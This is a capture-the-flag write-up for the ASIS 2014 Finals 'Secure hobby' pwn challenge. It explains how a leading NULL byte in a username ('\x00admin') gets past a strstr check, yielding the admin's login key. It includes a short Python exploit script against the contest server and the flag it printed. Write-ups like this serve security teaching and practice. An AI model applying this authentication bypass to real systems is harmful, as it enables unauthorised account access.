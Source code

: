# ASIS Cyber Security Contest Finals 2014: Secure hobby

**Category:** Pwn
**Points:** 250
**Description:**

> [File](hobby_8524ad2ae5fde9a43d7e6b1956c8099b) is running here:
>
> ```bash
> nc asis-ctf.ir 12439
> ```

## Write-up

Let’s see what [the provided file](hobby_8524ad2ae5fde9a43d7e6b1956c8099b) could be:

```bash
$ file hobby_8524ad2ae5fde9a43d7e6b1956c8099b
hobby_8524ad2ae5fde9a43d7e6b1956c8099b: xz compressed data
```

So, we extract the file using the built-in `xz` or `unxz` commands:

* `xz -dc < hobby_8524ad2ae5fde9a43d7e6b1956c8099b > hobby`
* `unxz < hobby_8524ad2ae5fde9a43d7e6b1956c8099b > hobby`

Alternatively, extract the provided file using [p7zip](http://p7zip.sourceforge.net/):

```bash
7z x hobby_8524ad2ae5fde9a43d7e6b1956c8099b
```

Let’s find out what the extracted file is:

```bash
$ file hobby
hobby: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, stripped
```

## The Challenge

Let's connect to the service to see what we're dealing with

```bash
$ nc asis-ctf.ir 12439
-------------------------------------------------
| 	Welcome to Super Secure Auth Engine	|
-------------------------------------------------

1) Register
2) Login check
3) Show my secret

Enjoy ;)
1
Enter username: admin
Kidding Me? :(
```

So we cannot register the username `admin`. Registering other usernames does work, in which case we are given a key.

```bash
Enter username: hacknamstyle
Your key for login is: 6147466a6132356862584e306557786c95a6d58cd2be3f87ff4a27e51afaff87
```

This key can then be given as input to option two or three:

```bash
2
Enter key: 6147466a6132356862584e306557786c95a6d58cd2be3f87ff4a27e51afaff87
OK
User hacknamstyle authenticated

[..]

3
Enter key: 6147466a6132356862584e306557786c95a6d58cd2be3f87ff4a27e51afaff87
You don't have any secret! :(
```

From the output of option two we notice that the key somehow encodes the username (and probably some secret authentication code). It's likely that the secret associated with the `admin` username contains the flag. Let's load the binary in IDA to see whether we can calculate the key for `admin` ourselves.

After some reversing, we have that the program reads the file `namak` on start-up, and saves the content to a global variable. When calculating the key for a user, this secret data appears to be used. Hence, since we don't know the content of the file, it appears we cannot calculate a valid key ourselves. However, while reversing the key generation algorithm, we notice that `strstr` is being used to check whether the username contains the string `admin`. Is it possible to bypass this check by including a leading NULL byte in the username? The answer is yes! Hence we get the key of the admin by using the username `\x00admin`. This key can then be used to read the secret of the admin (which is of course the flag):

```python
from netcatlib import *

# Get the key for admin
nc = Netcat('asis-ctf.ir', 12439)
nc.write("1\n")
nc.read_until("Enter username: ")
nc.write("\x00admin")
nc.read_until("Your key for login is: ")
key = nc.read_until("\n")
print "[+] Key for admin is", key,

# Get the secret of admin
nc = Netcat('asis-ctf.ir', 12439)
nc.write("3\n")
nc.read_until("Enter key: ")
nc.write(key)
nc.read_until("The flag is: ")
print "[+] Secret of admin:", nc.read_all()
```

The output of the script is:

```python
[+] Key for admin is 4147466b62576c7503812bbd45e23c059a0eab18e936b7ed
[+] Secret of admin: ASIS_65cc76f02093977bfd7629086e813666
```

## Other write-ups and resources

* [Alternative Exploit in Python](http://pastebin.com/b2QVFK2U)
